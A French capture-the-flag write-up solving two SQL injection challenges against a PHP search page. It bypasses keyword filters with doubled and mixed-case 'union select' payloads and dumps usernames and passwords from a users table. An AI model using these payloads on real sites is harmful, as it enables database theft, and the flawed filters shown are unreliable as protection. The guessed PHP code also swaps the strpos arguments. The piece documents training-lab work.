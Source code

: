 # Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```


![gogol1_1](gogol1_1.png)

on pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```

![gogol1_2](gogol1_2.png)

Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2

Le second challenge propose une version "patchée" du code.  
Bien évidemment, notre injection ne fonctionne plus, et nous n'avons cette fois plus accès au code source.

On peut donc supposer qu'il s'agit de la même requête SQL en PHP et qu'il faudra également trouver un moyen de contourner les filtres mis en place par le webmaster (en aveugle cette fois, donc).

On remarque que lorsqu'on essaye d'effectuer une injection basique, on obtient un message d'erreur `Hacker detected`. En réalité, une simple requête contenant les mots clés "union" ou "select" provoque l'affichage de ce message. On peut donc supposer que le code derrière ressemble maintenant à ça :

```
$filter = array('union', 'select', 'UNION', 'SELECT');

// Remove all banned characters
foreach ($filter as $banned) {
    if (strpos($banned, $_GET['q']) !== false) {
        echo "Hacker detected";
        die();
    }
} 
```
 Or il s'avère que, contrairement à `preg_replace()`, la fonction `strpos()` est case sensitive - contrairement à notre requête SQL qui se fout royalement des minuscules/majuscules. On peut donc contourner le filtre relativement simpelment :

```
' and 0 UnioN SelECt 1,2,3#
```
![gogol2_1](gogol2_1.png)

Il ne reste plus qu'à modifier légèrement notre requête précédente.

```
' and 0 UnioN SelECt username,password,3 from users#
```

![gogol2_2](gogol2_2.png)

`INEAT{l0w3rC4s3_S3ns171v3}`
